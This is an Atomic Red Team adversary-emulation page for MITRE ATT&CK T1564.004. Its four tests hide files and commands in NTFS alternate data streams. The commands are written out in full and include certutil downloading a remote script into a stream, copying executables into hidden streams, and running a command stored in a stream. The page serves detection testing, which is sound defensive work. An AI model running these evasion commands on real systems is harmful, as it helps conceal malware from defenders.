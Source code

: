 # T1564.004 - NTFS File Attributes
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1564/004)
<blockquote>Adversaries may use NTFS file attributes to hide their malicious data in order to evade detection. Every New Technology File System (NTFS) formatted partition contains a Master File Table (MFT) that maintains a record for every file/directory on the partition. (Citation: SpectorOps Host-Based Jul 2017) Within MFT entries are file attributes, (Citation: Microsoft NTFS File Attributes Aug 2010) such as Extended Attributes (EA) and Data [known as Alternate Data Streams (ADSs) when more than one Data attribute is present], that can be used to store arbitrary data (and even complete files). (Citation: SpectorOps Host-Based Jul 2017) (Citation: Microsoft File Streams) (Citation: MalwareBytes ADS July 2015) (Citation: Microsoft ADS Mar 2014)

Adversaries may store malicious data or binaries in file attribute metadata instead of directly in files. This may be done to evade some defenses, such as static indicator scanning tools and anti-virus. (Citation: Journey into IR ZeroAccess NTFS EA) (Citation: MalwareBytes ADS July 2015)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Alternate Data Streams (ADS)](#atomic-test-1---alternate-data-streams-ads)

- [Atomic Test #2 - Store file in Alternate Data Stream (ADS)](#atomic-test-2---store-file-in-alternate-data-stream-ads)

- [Atomic Test #3 - Create ADS command prompt](#atomic-test-3---create-ads-command-prompt)

- [Atomic Test #4 - Create ADS PowerShell](#atomic-test-4---create-ads-powershell)


<br/>

## Atomic Test #1 - Alternate Data Streams (ADS)
Execute from Alternate Streams

[Reference - 1](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)

[Reference - 2](https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/)

**Supported Platforms:** Windows


**auto_generated_guid:** 8822c3b0-d9f9-4daf-a043-49f4602364f4





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path | Path of ADS file | Path | c:&#92;ADS&#92;|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
extrac32 #{path}\procexp.cab #{path}\file.txt:procexp.exe
findstr /V /L W3AllLov3DonaldTrump #{path}\procexp.exe > #{path}\file.txt:procexp.exe
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1564.004/src/test.ps1 c:\temp:ttt
makecab #{path}\autoruns.exe #{path}\cabtest.txt:autoruns.cab
print /D:#{path}\file.txt:autoruns.exe #{path}\Autoruns.exe
reg export HKLM\SOFTWARE\Microsoft\Evilreg #{path}\file.txt:evilreg.reg
regedit /E #{path}\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKey
expand \\webdav\folder\file.bat #{path}\file.txt:file.bat
esentutl.exe /y #{path}\autoruns.exe /d #{path}\file.txt:autoruns.exe /o
```






<br/>
<br/>

## Atomic Test #2 - Store file in Alternate Data Stream (ADS)
Storing files in Alternate Data Stream (ADS) similar to Astaroth malware.
Upon execution cmd will run and attempt to launch desktop.ini. No windows remain open after the test

**Supported Platforms:** Windows


**auto_generated_guid:** 2ab75061-f5d5-4c1a-b666-ba2a50df5b02





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload_path | Path of file to hide in ADS | Path | c:&#92;windows&#92;system32&#92;cmd.exe|
| ads_file_path | Path of file to create an ADS under | Path | C:&#92;Users&#92;Public&#92;Libraries&#92;yanki&#92;desktop.ini|
| ads_name | Name of ADS | String | desktop.ini|


#### Attack Commands: Run with `powershell`! 


```powershell
if (!(Test-Path C:\Users\Public\Libraries\yanki -PathType Container)) {
    New-Item -ItemType Directory -Force -Path C:\Users\Public\Libraries\yanki
    }
Start-Process -FilePath "$env:comspec" -ArgumentList "/c,type,#{payload_path},>,`"#{ads_file_path}:#{ads_name}`""
```

#### Cleanup Commands:
```powershell
Remove-Item "#{ads_file_path}" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Create ADS command prompt
Create an Alternate Data Stream with the command prompt. Write access is required. Upon execution, run "dir /a-d /s /r | find ":$DATA"" in the %temp%
folder to view that the alternate data stream exists. To view the data in the alternate data stream, run "notepad T1564.004_has_ads.txt:adstest.txt"

**Supported Platforms:** Windows


**auto_generated_guid:** 17e7637a-ddaf-4a82-8622-377e20de8fdb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | File name of file to create ADS on. | String | %temp%&#92;T1564.004_has_ads_cmd.txt|
| ads_filename | Name of ADS. | String | adstest.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo cmd /c echo "Shell code execution."> #{file_name}:#{ads_filename}
for /f "usebackq delims=?" %i in (#{file_name}:#{ads_filename}) do %i
```

#### Cleanup Commands:
```cmd
del #{file_name} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - Create ADS PowerShell
Create an Alternate Data Stream with PowerShell. Write access is required. To verify execution, the the command "ls -Recurse | %{ gi $_.Fullname -stream *} | where stream -ne ':$Data' | Select-Object pschildname"
in the %temp% direcotry to view all files with hidden data streams. To view the data in the alternate data stream, run "notepad.exe T1564.004_has_ads_powershell.txt:adstest.txt" in the %temp% folder.

**Supported Platforms:** Windows


**auto_generated_guid:** 0045ea16-ed3c-4d4c-a9ee-15e44d1560d1





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | File name of file to create ADS on. | String | $env:TEMP&#92;T1564.004_has_ads_powershell.txt|
| ads_filename | Name of ADS file. | String | adstest.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
echo "test" > #{file_name} | set-content -path test.txt -stream #{ads_filename} -value "test"
set-content -path #{file_name} -stream #{ads_filename} -value "test2"
set-content -path . -stream #{ads_filename} -value "test3"
```

#### Cleanup Commands:
```powershell
Remove-Item -Path #{file_name} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: The file must exist on disk at specified location (#{file_name})
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
New-Item -Path #{file_name} | Out-Null
```




<br/>
